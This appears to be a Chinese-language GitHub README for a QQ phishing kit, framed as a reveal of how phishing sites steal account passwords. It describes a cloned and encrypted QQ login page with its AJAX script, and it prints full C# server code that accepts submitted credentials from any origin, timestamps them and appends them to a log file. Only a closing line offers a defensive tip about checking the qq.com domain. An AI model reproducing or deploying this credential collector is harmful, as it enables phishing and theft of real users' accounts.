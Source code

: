 # getQQNumberAndPwd
揭秘钓鱼网站是如何盗取你们的账号密码的（以qq为例）

##纯页面程序
`index.html`未加密，`ui.ptlogin2.qq.login.html`是它的加密版。`ajax.js`是自己写的纯`javascript-ajax`调用，因为引用JQ的话文件加载回比较慢，这里就用了自己写的东东。

##至于后端用于记录Info的东东。那个太简单，页面我就不放了。代码写下来吧。
```
 public void ProcessRequest(HttpContext context)
        {
            //在此处写入您的处理程序实现。
            context.Response.AddHeader("Access-Control-Allow-Origin", "*");
            context.Response.ContentType = "text/plain";
            context.Response.Clear();
            context.Response.Charset = "UTF-8";

            string request = context.Request.Params["msg"];
            if (request != null)
            {
                string path = "Data\\qq\\";
                request = "[" + DateTime.Now.ToString("yyyy-MM-dd HH:mm:ss") + "]  " + request;
                FileHelper.WriteFile(path + "qq.txt", request.Replace("local-host","\r\n"));
                context.Response.Write("KO");
            }
            else { 
                context.Response.Redirect("http://www.baidu.com");
            }
            context.Response.End();
        }
        
        private static string _RootPath = System.Web.HttpRuntime.AppDomainAppPath.ToString();
        
        /// <summary>
        /// 写文件 | 文本
        /// </summary>
        /// <param name="path">文件相对路径</param>
        /// <param name="Strings">文本内容</param>
        public static void WriteFile(string path, string Strings)
        {
            path = _RootPath + path;
            string pathD = path.Substring(0, path.LastIndexOf("\\"));
            if (Directory.Exists(pathD) == false) //目录是否存在,不存在则没有此目录
            {
                Directory.CreateDirectory(pathD);
            }
            System.IO.StreamWriter f2 = new System.IO.StreamWriter(path, true, System.Text.Encoding.UTF8);
            f2.WriteLine(Strings); 
            f2.Dispose();
        }
 ```

#程序就是这么简单，至于骗法万变不离其宗，无非就是同学相册啊，聚会相册啊，获得腾讯大奖啊之类。只要大家记住腾讯的登录域名qq.com就一定不会骗喽~
